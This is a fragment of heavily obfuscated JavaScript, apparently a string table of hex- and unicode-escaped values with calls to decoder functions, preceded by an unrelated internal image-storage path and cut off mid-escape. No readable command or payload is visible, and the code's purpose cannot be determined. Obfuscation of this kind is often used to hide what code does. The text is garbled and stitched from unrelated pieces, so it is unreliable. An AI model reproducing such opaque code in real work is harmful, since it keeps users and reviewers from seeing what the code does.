 \u003f\u005a\u0054\u0070','\x60\x5b\x2e\x36\x2f\x37\x7d\x39\x22\x31\x44\x3b\x51\x6a\x64\x22\x7d\x26\x39\x36\x7c\x5e\x4a\x6b\x4e\x30',scLZ44x(0x18),'\u007d\u0025\u0061\u0030\u0053\u0066\u0046\u006f\u0046','\x5f\x5a\x59\x31\x5e\x52\x71\x35\x33\x76\x60\x6c\x71\x54\x54\x24\x26\x7d\x4d',scLZ44x(0x93),'\x4f\x73\x22\x62\x79\x73\x53\x75\x39\x4c\x2c\x62\x31\x41\x54\x24\x70\x47','\u0032\u0060\u0066\u0025\u007e\u007c\u002c\u0030\u007d','\u0031\u0025\u003c\u003d\u003b\u0065\u0067\u0047\u0044\u004a\u004a\u0053\u006d\u004a\u0029\u007e\u002e\u004a\u0070\u0076\u004e\u0072\u0051\u0037\u005d\u0073\u0054\u006d\u002e\u0043\u006b\u0030\u0073\u003c',LaGO_Z(-0x44),scLZ44x(0x21),scLZ44x(0x72),'\x2f\x4d\x49\x30\x46\x26\x26\x22\x31\x48\x38\x38\x52\x6a','\x34\x49\x3f\x53\x63\x2c\x54\x58\x3c\x76\x7e',scLZ44x(0x94),'\u005b\u005b\u0028\u006e\u0023\u005e\u0060\u0066\u0057\u0077\u0042\u004c\u0034\u004e',scLZ44x(0x95),'\x34\x49\x3f\x53\x30\x63\x60\x7b\x4e\x5e\x5a\x46\x31\x4c\x48\x29\x42\x79\x4d',scLZ44x(0x96),'\x50\x78\x6d\x6e\x29',scLZ44x(0x97),scLZ44x(0x4d),scLZ44x(0x98),'\u0031\u0044\u0023\u004b\u004b\u0039\u0054\u004f\u0038\u0054\u007a\u0071\u0063','\x64\x73\x62\x5d\x37\x52\x5d\x36\x61\x5e\x7b\x75\x66\x6e\x63\x65\x36\x47',scLZ44x(0x99),scLZ44x(LaGO_Z(-0x24)),LaGO_Z(-0x2c),'\u004a\u0050\u0059\u0031\u0024\u0039\u004f\u0022\u0025\u0048\u006a\u0072\u002f\u006a\u0051\u0022\u0039\u0049\u0063\u0030\u0030\u0066\u003f\u0072',scLZ44x(0x9b),'\x7d\x26\x66\x25\x34\x7c\x3c','\u0029\u005b\u0034\u002b\u0034','\x51\x3c\x68\x30\x4b\x52\x21\x75\x7c\x4c\x6c\x43\x26\x33\x23\x73\x31\x47','dsb]7RYm8TkO|y/)q%ip:y,r','\u0051\u003c\u0068\u0030\u004b\u0052\u0021\u0075\u0079\u0054\u004c\u0062\u0035\u0026\u0048\u0029','\u0071\u0050\u0062\u0077\u003d\u0074\u0068\u0052\u0040','\u0063\u0069\u0038\u006f\u0053\u0043\u0039\u0077\u007a','\x4a\x50\x59\x31\x3c\x5f\x4d\x6f\x46','z}c0C|?r',LaGO_Z(-0x2b),'Fqe%','_ZY1^RL/3]j9u|e?,:>]95]mS]$OR&t?&)A>wRi`?i|]L|[s}%D},ISmChGzfnqW*Mh0Iw""PY',LaGO_Z(-0x2a),scLZ44x(LaGO_Z(-0x29)),'\x68\x50\x49\x58\x3a\x79\x65\x68\x46',scLZ44x(LaGO_Z(0x30)),scLZ44x(0x9d),'\x26\x71\x7c\x5e\x6d\x37\x38\x50','_ZY1^RL/%XkO|y/)*MA1BD=t=XHI|eP$JG',LaGO_Z(-0x28),scLZ44x(LaGO_Z(0x31)),'\u0065\u007d\u002a\u005d\u005b\u0053\u0074\u0029\u006d\u005e\u0039\u0044\u0047',LaGO_Z(-0x27),'\x77\x57\x6b\x79\x4d\x3b\x59\x5a\x73\x21\x2e\x61\x7c\x79\x5d\x29\x3c\x45\x51\x41\x56\x30\x57\x47',scLZ44x(LaGO_Z(0x32)),'_ZY1^RL/%XkO|y/)*MA1BD=t=XHI|eP$Q<G',scLZ44x(0x18),'\x6a\x6a\x49\x30\x2a\x3e\x45\x72',scLZ44x(0x2f),'\u0032\u002e\u0055\u0040\u0077\u0039\u004d\u006b\u0076\u0045\u004f\u0028\u004d\u0022\u0022\u0049\u0044\u0036\u007a',LaGO_Z(-0x26),'\u007d\u0057\u0062\u005d\u0024\u007a\u0060\u007b\u003e\u004f\u002e\u0044\u0047',scLZ44x(LaGO_Z(-0x39)),LaGO_Z(-0x32),scLZ44x(LaGO_Z(-0x25)),'\u0021\u005b\u0034\u004c\u002e\u002a\u0064\u0073\u0060\u0023\u005f',scLZ44x(0xa0),'*qdKZ9`P',scLZ44x(LaGO_Z(0x33)),'\x36\x50\x37\x70\x7a\x39\x3a\x22\x40',scLZ44x(0xa2),'\x50\x2c\x7c\x5e\x76\x7c\x3c',LaGO_Z(-0x37),'\x4c\x35\x57\x60\x36\x2a\x3c',scLZ44x(0xa3),'\u006d\u0078\u0030\u006e\u0022\u0037\u0067\u0058\u0038\u0054\u007c\u0051\u0033\u002f\u0044\u002c',scLZ44x(0x99),scLZ44x(LaGO_Z(-0x24)),'\x4b\x3e\x2a\x2b\x5f\x4b\x64\x43\x37\x77\x4d\x3a\x43\x6a\x57\x38',LaGO_Z(-0x31),scLZ44x(LaGO_Z(0x2f)),LaGO_Z(-0x30),scLZ44x(0x25),'\x33\x26\x39\x77\x3d\x74\x4f\x22\x40',scLZ44x(0xa4),scLZ44x(LaGO_Z(0x2d)),'\u0074\u0040\u0026\u0077\u0034\u0034\u0074\u007b\u0056\u005e\u0062','\x3d\x26\x53\x6a',scLZ44x(0xa5),scLZ44x(0xa6),LaGO_Z(-0x36),scLZ44x(LaGO_Z(0x2e)),scLZ44x(0x2d),scLZ44x(0xa7),scLZ44x(0x2e),scLZ44x(LaGO_Z(-0x23)),LaGO_Z(-0x45),'\x59\x71\x7c\x5e\x6d\x37\x38\x50','\x32\x2e\x55\x40\x77\x39\x2f\x75\x60\x58\x4f\x2a\x5a\x6f\x4a\x2c\x68\x69\x4c\x36\x2f\x37\x5d\x66\x69\x68\x5a\x53\x63',LaGO_Z(-0x22),'2.U@w9/u`XO*2:,8_d^a5kaW+acV*o/"&%(n)jQObX:o^vJ!Rt(N=Ly!KQ<=G|p>m~6s@O@Tj%k;G:d,.5}xH9jk=',scLZ44x(0xa8),'\u0075\u0024\u0064\u004b\u0047\u0037\u0023\u0050','\u0060\u005b\u0054\u0025\u006e\u007c\u0046\u0070\u0062\u007d\u0037\u0066\u0031\u002f\u0047',LaGO_Z(-0x21),scLZ44x(LaGO_Z(0x35)),'\u007d\u0026\u0066\u0025\u0079\u0037\u0074\u007d\u005b\u0045\u0068\u003b\u0051\u006a\u0034\u0032\u0024\u005b\u0054\u0025\u002e\u0067\u0068\u0034\u003f\u0055\u0035\u003b\u0075\u006f\u007b\u003e\u006f\u0069\u005a\u007a\u002e\u007e\u0076\u002e\u0050','\u0039\u0032\u007a\u0040\u006c\u002b\u0053\u006b\u006f\u0053\u007b\u0045\u0040\u004e',scLZ44x(LaGO_Z(-0x1c)),LaGO_Z(-0x20),LaGO_Z(-0x44),'\u0034\u004d\u006c\u0030\u007b',scLZ44x(0x72),LaGO_Z(-0x1f),scLZ44x(0xab),'\x69\x70\x44\x7d\x53\x79\x55',scLZ44x(0xac),',cVSrsU',scLZ44x(LaGO_Z(0x34)),'\x22\x5a\x7c\x70\x61\x6c\x5e\x7a\x61\x5e\x3a\x76\x42\x6e\x7e\x71\x47\x6a\x62\x77\x36\x79\x24\x68\x70\x5e\x7b\x49\x60\x5f\x78\x73\x6b\x4e\x42\x49\x4d\x7c\x29\x72','}&,nQ*<','\x3f\x4e\x6b\x79\x7d\x67\x7d\x22\x61\x76\x6e\x21\x79\x25\x79\x5f\x73\x5a\x4d','\u004b\u003e\u002a\u002b\u005f\u004b\u0064\u0043\u0037\u0077\u004d\u003a\u0043\u006a\u0057\u0038',LaGO_Z(-0x1e),scLZ44x(LaGO_Z(-0x1d)),'\x29\x5b\x34\x2b\x34','\x39\x7a\x33\x2b\x55\x5e\x42\x26\x6d\x77\x64\x45\x24\x6f\x79','\u006e\u005a\u006c\u0030\u003d','\x3b\x7d\x6e\x40\x64\x2e\x42\x72\x46','\x4c\x36\x68\x7d\x34','\x4a\x50\x59\x31\x3c\x5f\x4d\x6f\x46','\x78\x78\x71\x6e\x46\x5e\x7a\x29\x25\x77\x4e\x56\x63',scLZ44x(LaGO_Z(-0x2d)),'\x5f\x5a\x59\x31\x5e\x52\x4c\x2f\x33\x5d\x6a\x39\x75\x7c\x65\x3f\x2c\x3a\x3e\x5d\x39\x35\x5d\x6d\x53\x5d\x4c\x44\x52\x6a\x49\x71\x7d\x57\x62\x5d\x26\x77\x6c\x35\x79\x4c\x47\x7a\x79\x3f\x26\x65\x76\x70\x49\x5d\x2c\x38\x23\x4a\x61\x5e\x7b\x49\x6c\x38\x47\x51\x48\x47','\x7b\x50\x59\x31\x30\x66\x4a\x72','F<6FY',LaGO_Z(-0x45),scLZ44x(LaGO_Z(-0x3a)),'\u0059\u0071\u007c\u005e\u006d\u0037\u0038\u0050',scLZ44x(LaGO_Z(0x38)),scLZ44x(LaGO_Z(0x39)),'2.U@w9/u`XO*2:,8_d^a5kaW+acV*o/"&%(n)jQO<6!s^?21FzY^lVEqIy@%h9!I6ADaeIAVH1s;G:d,.5}xH9jk=','/Bip0y*{dF,7JLN',scLZ44x(LaGO_Z(0x3a)),LaGO_Z(-0x43),'\u0052\u005f\u004d\u0031\u005b\u0053\u0021\u0035\u006e\u0021\u0057\u0076\u0